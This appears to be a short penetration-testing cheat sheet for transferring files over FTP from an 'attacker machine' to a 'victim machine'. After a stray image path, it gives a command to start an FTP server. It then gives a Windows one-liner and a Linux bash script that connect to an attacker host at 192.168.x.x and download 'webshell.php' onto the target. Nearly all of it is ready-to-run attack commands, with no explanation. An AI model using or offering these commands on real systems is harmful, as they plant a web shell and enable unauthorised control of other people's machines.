

python -m pyftpdlib -p 21 -w (attacker machine)
ftp $attacker_ip
download file to victim machine (windows)
echo open 192.168.x.x > ftp.txt & echo USER anonymous >> ftp.txt & echo ftp >> ftp.txt & echo bin >> ftp.txt & echo GET webshell.php>> ftp.txt & echo bye >> ftp.txt & ftp -v -n -s:ftp.txt
download file to victim machine(linux)
#!/bin/bash
HOST=192.168.x.x
USER=anonymous
PASSWORD="1"
ftp -inv $HOST <<EOF
user $USER $PASSWORD
cd /root/webshell.php
get webshell.php
bye
EOF
